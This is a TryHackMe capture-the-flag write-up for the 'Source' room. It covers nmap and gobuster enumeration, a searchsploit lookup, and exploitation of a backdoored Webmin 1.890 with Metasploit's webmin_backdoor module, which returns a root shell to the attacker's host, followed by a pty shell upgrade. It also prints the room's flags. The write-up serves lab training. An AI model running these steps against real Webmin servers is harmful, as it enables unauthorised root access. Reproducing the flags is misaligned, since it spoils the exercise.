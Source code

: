 ```yaml
---
title: "TryHackMe - Source Write-up"
author: "FAFS FSAFAF"
date: "2025-09-09"
categories: [TryHackMe, CTF, Writeup]
---
```


# TryHackMe - Source Write-up

## 📌 Overview
- **Room:** Source  
- **Difficulty:** Easy  
- **Tags:** Enumeration, Webmin, Exploitation, Privilege Escalation

This room focuses on exploiting a vulnerable Webmin service to gain root access.

---

## 📑 Table of Contents
1. [Enumeration](#-enumeration)
2. [Web Enumeration](#-web-enumeration)
3. [Exploitation](#-exploitation)
4. [Post-Exploitation](#-post-exploitation)
5. [Flags](#-flags)
6. [Conclusion](#-conclusion)

---

## 🔍 Enumeration

### Nmap Scan
We start by scanning the target with **nmap**:

```bash
sudo nmap -sC -sV -T4 {target_IP}
```

- **-sC**: Run default scripts  
- **-sV**: Detect service versions  
- **-T4**: Aggressive timing for faster results  

**Results:**

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
```

✅ Open ports:  
- **22/tcp** → SSH  
- **10000/tcp** → Webmin  

---

## 🌐 Web Enumeration
Visiting `https://{target_IP}:10000` revealed a **Webmin login page**.

- Default credentials were tested → **failed**  
- Directory enumeration with **gobuster** produced no useful results:

```bash
gobuster dir -u https://{target_IP}:10000 -w /usr/share/wordlists/dirb/common.txt
```

---

## 🎯 Exploitation

### Searchsploit
We check for Webmin exploits:

```bash
searchsploit webmin
```

Several **RCE exploits** were available. Since the Webmin version is vulnerable, we proceed with **Metasploit**.

### Metasploit
Start `msfconsole` and search for Webmin exploits:

```bash
msf6 > search webmin
```

We use the **Webmin backdoor exploit**:

```bash
use exploit/linux/http/webmin_backdoor
set RHOST {target_IP}
set RPORT 10000
set LHOST tun0
set SSL true
exploit
```

✅ This immediately provided a **root shell**.

---

## 🖥️ Post-Exploitation

To upgrade the shell to a stable TTY:

```bash
echo "import pty; pty.spawn('/bin/bash')" > /tmp/anyname.py
python /tmp/anyname.py
```

We now have a fully interactive **root shell**.

---

## 🚩 Flags

Retrieve flags from the machine:

```text
user.txt → THM{SUPPLY_CHAIN_COMPROMISE}
root.txt → THM{UPDATE_YOUR_INSTALL}
```

---

## ✅ Conclusion

- Enumerated open ports with `nmap`  
- Identified Webmin service on port 10000  
- Verified vulnerable Webmin version  
- Exploited with **Metasploit `webmin_backdoor`**  
- Achieved **root access** and captured flags  

This room is ideal for practicing **service enumeration** and **Metasploit exploitation**.
